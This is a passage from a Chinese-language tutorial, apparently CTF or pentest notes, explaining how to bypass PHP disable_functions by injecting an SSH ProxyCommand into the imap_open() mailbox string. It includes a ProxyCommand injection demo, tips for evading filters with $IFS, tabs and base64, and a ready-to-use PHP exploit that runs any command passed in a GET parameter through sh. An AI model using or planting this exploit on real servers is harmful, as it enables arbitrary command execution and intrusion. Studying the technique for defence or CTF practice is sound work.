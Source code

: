ProxyCommand指定用于连接服务器的命令：

```bash
$ ssh -oProxyCommand="touch flag" localhost
ssh_exchange_identification: Connection closed by remote host
$ ls | grep flag
flag
```

具体分析可参考：[如何在PHP安装中绕过disable_functions](https://xz.aliyun.com/t/4113).


**imap_open()**:

```php
resource imap_open ( string $mailbox , string $username , string $password [, int $options = 0 [, int $n_retries = 0 [, array $params = NULL ]]] )
```

![](/assets/images/move/2019-11-20-08-22-02.png)

mailbox 参数的值由服务器名和服务器上的 mailbox 文件路径所组成，INBOX 代表的是当前用户的个人邮箱。比如，我们可以通过如下方式来设置 mailbox 参数：

```php
$mbox = imap_open ("{localhost:993/PROTOCOL/FLAG}INBOX", "user_id", "password");
```

在括号内的字符串中，我们可以看到服务器名称（或者IP地址）、端口号以及协议名称。用户可以在协议名后设置标志（第3个参数）。

这里不能直接将 ProxyCommand 命令直接转移到 PHP 脚本来代替 imap_open 服务器地址，因为在解析时它会将 **空格解释为分隔符** 和 **斜杠作为标志**。但是我们可以使用 `\$IFS` 这个shell变量来替换 `空格` 符号或使用 `\t` 替换。还可以在 bash 中使用 Ctrl + V 热键和 Tab 键插入标签。要想绕过斜杠，可以使用 `base64编码` 和相关命令对其进行解码。

exp:

```php
<?php
error_reporting(0);
if (!function_exists('imap_open')) {
        die("no imap_open function!");
}
$server = "x -oProxyCommand=echo\t" . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . "|base64\t-d|sh}";
//$server = 'x -oProxyCommand=echo$IFS$()' . base64_encode($_GET['cmd'] . ">/tmp/cmd_result") . '|base64$IFS$()-d|sh}';
imap_open('{' . $server . ':143/imap}INBOX', '', ''); // or var_dump("\n\nError: ".imap_last_error());
sleep(5); //imap_open() 执行时进行 DNS 轮询存在延时，等待 imap_open() 执行完毕
```